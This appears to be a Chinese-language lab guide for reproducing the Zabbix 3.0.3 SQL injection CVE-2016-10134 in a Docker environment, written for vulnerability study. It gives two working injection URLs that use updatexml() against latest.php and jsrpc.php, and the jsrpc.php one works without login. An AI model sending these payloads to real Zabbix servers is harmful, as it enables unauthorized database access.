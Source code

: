 # zabbix latest.php SQL注入漏洞（CVE-2016-10134）

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 运行环境

执行如下命令启动zabbix 3.0.3:

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 复现漏洞

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](1.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![](2.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![](3.png)
